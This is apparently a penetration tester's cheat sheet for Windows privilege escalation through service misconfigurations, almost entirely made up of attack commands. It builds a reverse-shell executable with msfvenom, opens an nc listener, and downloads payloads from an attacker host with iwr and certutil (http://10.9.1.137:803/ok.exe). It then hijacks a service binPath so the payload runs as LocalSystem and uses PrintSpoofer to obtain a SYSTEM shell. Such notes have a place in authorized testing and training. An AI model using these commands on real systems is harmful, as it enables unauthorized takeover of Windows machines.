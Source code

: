-> Exploitation - attacker
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe > name <name_inside_the_path>.exe  
nc -nvlp <port>
```

-> Exploitation - windows
```
iwr -uri <ip>/<service_eecutable_name> -Outfile <service_executable_name>
move <name_inside_the_path>.exe <service_path>  
```
```
sc stop <service_name>
sc start <service_name>
```
or  
```
shutdown /r
```

### binPath - Services [PrivEsc]
-> Detection
```
. .\PowerUp.ps1
Get-ModifiableService -Verbose
```
or
```
Get-ModifiableService -Verbose
wmic service get Name,State,PathName | findstr "Running" | findstr "Program"  
wmic service get Name,State,PathName | findstr "Program"  
icacls <pathname>  
//(F) and (i) (F)
accesschk.exe -wuvc <service_name>
//RW Everyone  
//  SERVICE_CHANGE_CONFIG
sc qc <service_name>
```

-> Exploitation - Windows [PrivEsc]
```
certutil -urlcache -f http://10.9.1.137:803/ok.exe ok.exe  
sc config <name_ service> binPath="C:\Users\files\ok.exe" obj= LocalSystem  
sc stop <service_name>  
sc query <service_name>  
sc start <service_name>  
```

https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite  

### SeImpersonatePrivilege
```
PrintSpoofer64.exe -i -c cmd
```
https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
